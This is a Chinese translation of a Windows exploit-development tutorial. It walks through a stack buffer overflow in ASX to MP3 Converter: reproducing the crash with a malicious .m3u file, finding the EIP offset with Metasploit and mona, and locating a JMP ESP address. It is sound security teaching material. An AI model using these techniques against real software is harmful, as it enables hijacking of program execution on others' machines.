Author：[Mike Czumak](https://www.securitysift.com/windows-exploit-development-part-2-intro-stack-overflow/)

翻译：[moonAgirl](https://github.com/moonAgirl)

## 概观

欢迎来到我的Windows漏洞利用开发系列的第2部分。在第一篇文章中，我介绍了一些基本概念，在继续第2部分及其后续部分应该掌握这些基本概念。如果你还没有这样做，我建议看看第一篇文章，以确保你牢牢掌握所有提出的概念。基于这些知识，我现在想讨论一个基于Windows的软件漏洞：基于栈的缓冲区溢出。

## 基于堆栈的缓冲区溢出简介
在这一期中，我将以维基百科的简单程序开始：



在第1部分中，我提到了将大于11个字符的参数传递给strcpy（）函数会导致缓冲区溢出，因为缺少边界检查。让我们看看具体情况。回想一下strcpy（）如何将argv [1]用户输入写入堆栈，如下所示：



如果输入少于12个字符（函数foo中变量c分配给堆栈的大小），那么这很好，但是如果输入超过11个字符，strcpy（）会继续将输入写入堆栈，无论多少空间已经分配。[注意：如果你想知道为什么输入字符限制是11而不是12（因为变量大小是12），那是因为你必须为字符串分配终结符。]

例如，如果我们要用150*‘A’作为参数运行这个程序，我们得到一个看起来像这样的栈：



正如你所看到的，strcpy（）用argv [1]覆盖了所有的基指针（保存的EBP）和返回地址（保存的EIP）。注意：不要担心指向下一个SEH记录和异常处理程序的指针 - 我将在以后的文章中介绍它们。现在，当程序将执行到foo函数的返回地址时，它将返回到地址41414141（AAAA）去执行，由此引发错误/异常。



这是因为strcpy（）没有使用边界检查，因此它不会验证是否超过变量c分配的空间，并且会继续写入栈，直到argv [1]全部写入。由于局部变量被写入栈上的返回地址和其他重要数据，这里返回地址被‘A’覆盖。



由于我们完全控制了我们传递给程序的参数，由于这种基于栈的缓冲区溢出，我们就可以完全控制EIP，并因此控制程序本身的执行流程。这意味着我们可以重定向程序来执行我们选择的代码 - 这是一个基于堆栈的缓冲区溢出漏洞的简单示例。让我们看一个具有类似缓冲区溢出的实际程序。

## 找到一个脆弱的应用程序

先介绍一下Exploit Database（http://www.exploit-db.com/），这是一个漏洞利用存档库，还包括可供下载的相关易受攻击软件。它是漏洞开发的好资源，也是提交自己漏洞报告的好地方。在未来的文章中，我将讨论如何找到自己的软件漏洞，但是对于现在这个介绍演示，我们使用现有的软件漏洞。

对于这个例子，我将参考 Cyber​​-Zone于2009年提交的关于[ASX to MP3 Converter](https://www.exploit-db.com/exploits/8407/)的一个较旧的缓冲区溢出漏洞利用。查看发布到Exploit-DB的代码，并在打开包含“http：//”+ 26121 *‘A’的音乐播放列表文件（.m3u）后注意EIP覆盖为（41414141）。因为这是一个POC，它实际上并没有导致任意代码执行（只是程序崩溃）。另此POC并未指出哪些版本的软件易受攻击，并且它是在Windows XP SP2法语版上编写的，这意味着我们可以在备用版本的操作系统上看到不同的结果。考虑到这一切，让我们下载ASX-MP3 Converter 3.0.0.7  并将其安装在Windows XP SP3上。

## 复制漏洞/崩溃

接下来让我们开始构建我们的漏洞利用并从利用POC导致应用程序崩溃。我用Perl编写利用脚本。



正如你所看到的，Perl脚本创建了一个包含50,000个A的m3u文件（41是'A'的16进制，参见http://www.asciitable.com/）。请注意，对于此m3u漏洞利用，原始POC中包含的“http：//”不是必需的，尽管一些基于m3u的漏洞需要这样的文件头才能工作。你可以研究一个有效的m3u文件的内容，以了解这是为什么。还要注意，这个漏洞，保存m3u漏洞利用文件的路径会影响最终的EIP覆盖，因此请确保命名exploit文件与我的示例（asx2mp3.m3u）相同，并将其保存到C：\之下，用ASX-MP3转换器打开它。

运行perl脚本（例如perl asx2mp3.pl）以生成漏洞利用m3u文件并将其保存到目标Windows机器的C：\。然后打开ASX-MP3转换器并用Immunity Debugger附加，按F9运行。



使用ASX to MP3播放器打开asx2mp3.m3u漏洞文件（将其拖到应用程序中），您应该会立即看到应用程序崩溃并导致Immunity中的EIP覆盖。





## 控制EIP覆盖（确定偏移）

好的，所以我们已经确认了POC崩溃。现在，为了控制程序执行并使这个漏洞利用起作用，我们需要做的第一件事就是弄清楚我们的50,000字符缓冲区中的哪个点覆盖EIP（也称为“偏移”）。我们可以通过构造具有多个字符（例如A，B，C，D和E各一个）的缓冲区来通过反复试验来做到这一点，并查看EIP如何被覆盖，如下图所示。



EIP被C覆盖，所以从这里你可以关注字符20,001到30,000，以较小的增量分解它们，直到找到覆盖EIP的确切4个字节。虽然有效，但此方法可能需要一些时间，有一种更简单的方法。我们可以使用Metasploit pattern_create / pattern_offset函数（您可以在Backtrack / Kali Linux上找到）来找到确切的EIP覆盖，而不是多次尝试。

    root@kali:/# locate *pattern_*.rb
    /usr/share/metasploit-framework/tools/pattern_create.rb
    /usr/share/metasploit-framework/tools/pattern_offset.rb

使用pattern_create，我将创建一个长度为50,000的字符串，将其插入我的脚本并创建一个新的m3u exploit文件。

    root@kali:/# /usr/share/metasploit-framework/tools/pattern_create.rb 50000
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad...



在Immunity（Ctrl + F2）中重新启动ASX到MP3转换器，打开新创建的m3u文件（从C：\）并检查Immunity中的崩溃。这次我们看到EIP被48376D48覆盖。



为了在我们的50,000字符缓冲区内找到这个EIP覆盖的确切偏移量，我们将使用pattern_offset.rb。语法如下：

    root@kali:/# /usr/share/metasploit-framework/tools/pattern_offset.rb 0x48376D48 50000



在这种情况下，实际偏移量是列出的第二个（26121），与在Exploit-DB.com中发布的原始POC中的相同。我们可以通过修改我们的脚本来测试，如下所示：



在上面的脚本中，我添加了一个变量$junk，其中包含26121个A - 填充缓冲区首地址与EIP之间的空间。接下来的四个字节应该完全覆盖EIP（我选择了四个B），并且50,000字符缓冲区的剩余部分用C填充。使用更新后的m3u文件重新运行易受攻击的应用程序可以确认EIP的偏移量，并按照所希望的4*‘B’覆盖它。您也可以在栈和内存窗格中看到我们缓冲区的内容。



让我们来看看另一种生成模式并计算偏移量的方法，这次使用[Mona](https://github.com/corelan/mona)插件来实现。将插件保存到Immunity的PyCommands文件夹后，从调试器中启动ASX-MP3转换器。

如果你想使用mona生成模式，你可以输入！mona pc 50000 ，它会将模式写入文本文件。由于我在单独的Kali机器上编写大部分漏洞，我更愿意使用pattern_create.rb。无论哪种方式，一旦您创建了包含50,000字节模式的漏洞利用m3u文件并导致应用程序在Immunity中崩溃，您现在可以使用mona命令findmsp 。使用这个命令（！mona findmsp），mona将定位EIP覆盖以及其他非常有用的信息，例如哪些寄存器包含缓冲区的一部分。如果你运行！mona findmsp命令，你的输出应该如下所示：



请注意它是如何在偏移5841处找到一个EIP模式的，它可能看起来很熟悉，因为它是我之前展示的Metasploit pattern_offset.rb脚本找到的三个模式匹配中的第一个。可以看mona.py中的findmsp函数源码使用python find（）函数查找偏移量，如下所示：

    offset = regpattern.find(hexpat))

如果您熟悉python，find函数仅返回第一次匹配，而不是所有匹配。在我们的情况下，我们实际上对第二次个偏移感兴趣。为了确定正确的偏移量。我更新了我的mona副本使用正则表达式（而不是查找函数），并循环遍历模式匹配的所有匹配项以构造所有偏移量的连接字符串。如果你有兴趣，下面是代码（需要一些额外的代码更改）：

    match in re.finditer(hexpat, regpattern):
    	if offsetstr != "":
    	divisor = " and "
    	offsetstr = offsetstr + divisor + match.start( )
     
    	...
     
    	[be sure to edit dbg.log to write offsetstr as %s]

这将导致以下输出：



如您所见，它现在返回EIP偏移的所有可能的偏移。

## 找到我们的shellcode的位置

现在我们已经确认我们可以控制EIP覆盖（以及最终的执行流程），我们已准备好修改漏洞利用脚本以使其执行我们选择的代码。为了将执行流程重定向到有用的东西，我们需要确定我们生成的shellcode将要驻留的位置，然后将EIP指向该位置。为此，我们需要在应用程序崩溃和EIP覆盖时检查CPU寄存器和内存内容。让我们回到CPU视图中的Immunity输出：

请注意，目前有三个寄存器指向我们的50,000字节缓冲区中的某个位置：EBX，ESP和EBP。



我们希望使用我们的EIP覆盖来告诉应用程序重定向到其中一个寄存器并执行它指向的代码。我们选择哪个寄存器取决于几件事情：

    1.在该位置的不间断代码的数量 - 有时我们的利用代码可能会被应用程序写入内存时被破坏或截断，所以我们需要确保我们有足够的空间来插入可用的shellcode（通常至少500字节），并且代码不会被应用程序以任何方式修改。
    
    2.我们能够重定向到其中一个寄存器 - 为了告诉应用程序重定向到一个指向我们的shellcode的寄存器，我们需要用一个地址覆盖EIP，并将其写入现有指令，如JMP或CALL。请记住，EIP被地址指针覆盖，而不是实际的指令。换句话说，我们不能用对应于跳转ESP的操作码覆盖EIP（\ xff \ xe4）。相反，我们需要用指向这样一条指令的内存地址覆盖它。最重要的是，我们需要确保我们使用的地址不包含空字节（\ x00）。为什么？由于空字节用作终止符，这意味着一旦应用程序命中空字节，执行就会终止，并且在EIP覆盖之后（本例中为我们的shellcode）将不执行任何操作。对于空字节规则有一些例外，但对于第一个例子，请记住，我们试图避免包含空字节的地址。如果你对此感到困惑，不要担心我会演示。

好的，所以我们需要告诉应用程序重定向或“跳转”到包含shellcode的寄存器。在这种情况下，我们很幸运，因为我们有三种可能的寄存器可供选择：EBX，ESP和EBP。

让我们来检查EBX的第一个标准：在那个位置不间断代码的数量。在CPU寄存器窗格中，右键单击EBX中的地址并选择“Follow in Dump”。



在“内存”窗格（左下角）中，您应该看到该地址的内容以及后面的地址。开始向下滚动，注意看看我们插入的缓冲区是否有中断。在我的情况下，它在位置000FCFCC之后中断。



为了估算我们在EBX上有多少不间断的shellcode空间，我们可以从000FCFCC中减去EBX（000FBBD4）的开始。这有0x13F8或5112字节。有足够的可用空间，所以EBX是一个很好的候选。

我们可以用另外两个寄存器（ESP和EBP）继续这个练习来确定最大空间的位置。或者，我们可以使用！mona findmsp来检查可用空间。请记住，由findmsp显示的偏移量仅与模式的第一次出现相对应，但在确定shellcode的可用空间时，检测到的长度准确且有用。运行！mona findmsp并查看三个寄存器返回的长度。



如果我们用可用空间去比较，ESP是最多的，那么让我们来检查一下ESP的第二个标准：我们使用EIP覆盖重定向到那个位置的能力。对于这个示例，我们将用一个简单的跳转或调用指令，它将我们带到我们想要的寄存器。为了实现这一点，我们需要找到一个JMP ESP或CALL ESP指令。

以下是您如何在 Immunity中执行此操作的方法：

右键单击CPU视图的CPU指令窗格，选择“搜索”并单击“所有模块中的所有命令”。这将搜索所有已加载的模块（.exe和所有DLL）用于我们的jmp /call指令。



输入所需的指令，在本例中为“jmp esp”。



正如你在下面的屏幕截图中看到的，我们可以得到很多结果，但问题是唯一可用的地址都不在应用程序本身中 - 注意它们都与“C：\ WINDOWS”和“C ：\ Program Files \ Mini-Stream \ ASX-MP3转换器...“。如果没有其他替代方案，这些DLL /模块当然可用作有效的jmp指令，这些非应用程序模块中的指令地址可能因Windows的不同“风格”而异。例如，Windows SP2和SP3之间或SP3法语和SP3英语之间的DLL地址可能不同。为确保您的漏洞利用代码具有更好的可移植性，您希望尽可能从应用程序模块中选择指令。

